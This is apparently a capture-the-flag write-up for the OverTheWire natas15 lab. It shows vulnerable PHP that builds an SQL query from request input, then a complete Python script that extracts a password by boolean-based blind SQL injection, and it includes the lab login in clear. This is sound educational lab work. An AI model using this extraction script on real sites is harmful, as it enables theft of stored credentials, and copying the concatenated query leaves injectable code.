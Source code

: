 # Analyze
It's a simple SQL Injection as we examing the source code:

```php
$query = "SELECT * from users where username=\"" . $_REQUEST["username"] . "\"";
```
And since we can only receive True/False from the server, we need `Boolean-based SQL Injection`.

So we need a SQL sentence like below:
```sql
SELECT * from users where username="natas16" and password=...
```
We will find out the password one digit at a time, by using:
- `SUBSTR()` to choose a digit at the specified position
- `ASCII()` to get the ascii-code of that digit
- `<=` to narrow the scope.

Here's the pay load below:
```py
payload = f'natas16" and {this} <= ASCII(SUBSTRING(password, {i}, 1)) -- '
```
Where `'this'` is the ascii code number to try this time, `'i'` is the position of password that will be tested.

After that, we just needs to find whether there's `"This user exists."` in the response content, and determine whether our a ssumptions (`'this'`) works.

# Solution
The complete Python code is as below. _\* Please change the password for natas15 if a long time has passed._
```py
import requests

def test(i):
    url = "http://natas15.natas.labs.overthewire.org/index.php"

    l = 0
    r = 128

    # [l, r)
    while r - l > 1:
        this = (r+l)//2
        payload = f'natas16" and {this} <= ASCII(SUBSTRING(password, {i}, 1)) -- '
        res = requests.post(url, {"username": payload}, auth=('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'))
        res = res.text.find('This user exists.') != -1
        if res:
            # target >= this
            l = this
        else:
            r = this

    return l

flag=""
for i in range(1, 64):
    flag += chr(test(i))
    print(flag)
```
With the process like below, we will finally got the password:
![Screenshot_20240515_072320_com termux_edit_833277939863991](https://github.com/BernieHuang2008/blog/assets/88757735/2f49ef62-3821-4da4-9f8d-b5b8ed8a6ca9)
